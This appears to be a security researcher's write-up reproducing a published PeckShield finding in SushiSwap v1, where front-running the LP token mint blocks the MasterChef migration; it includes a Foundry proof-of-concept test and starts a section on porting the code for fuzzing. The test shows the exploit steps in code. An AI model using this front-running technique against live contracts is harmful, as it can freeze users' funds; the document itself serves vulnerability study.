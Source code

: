 The original code I studied came from the SushiSwap v1 repository:  
[https://github.com/sushiswap/sushiswap](https://github.com/sushiswap/sushiswap)  
at commit hash `180bc9b`.

## Replicating the PeckShield Finding

A critical assumption in SushiSwap’s migration mechanism is that the migrator contract will be the first to mint new LP tokens. However, if an attacker front-runs and mints before the migrator, the migration fails, effectively blocking the intended migration and freezing funds in the contract.

I built a proof-of-concept to replicate and confirm this bug. The full test is available on [GitHub](https://github.com/0xh4ty/sushiswap-v1-exploit-lab/blob/main/test/MasterChefMigration.t.sol), and a relevant snippet is shown below:

```solidity
    function testMigrationBlockedByFrontRun() public {
        // attacker front-runs before migrator is even known
        vm.startPrank(attacker);

        address newPairAddr = newFactory.getPair(address(token0), address(token1));
        newPair = UniswapV2Pair(newPairAddr);
        newLP = IERC20(address(newPair));

        // attacker seeds tiny liquidity to poison the new pair
        deal(address(newPair.token0()), attacker, 1 ether);
        deal(address(newPair.token1()), attacker, 2 ether);

        IERC20(newPair.token0()).transfer(address(newPair), 1 ether);
        IERC20(newPair.token1()).transfer(address(newPair), 2 ether);

        newPair.mint(attacker);
        vm.stopPrank();

        // now deploy and set migrator after attacker minted
        migrator = new Migrator(address(chef), address(oldFactory), newFactory, block.number);
        chef.setMigrator(IMigratorChef(address(migrator)));
        newFactory.setMigrator(address(migrator));

        vm.expectRevert("migrate: bad");
        chef.migrate(0);
    }
```

## Fuzzing Experiments

### Porting from solidity 0.6.12 to ^0.8.25

The whole SushiSwap v1 project was written in Solidity 0.6.12 at a time when Truffle was the popular framework for testing. But Truffle lacked modern methods of testing, unlike Foundry, which supports advanced testing techniques including fuzzing. Foundry, however, only supports fuzz testing for contracts written in Solidity 0.8 and above. That forced me not just to port the SushiSwap project from Truffle to Foundry, but also from Solidity 0.6.12 to ^0.8.25.
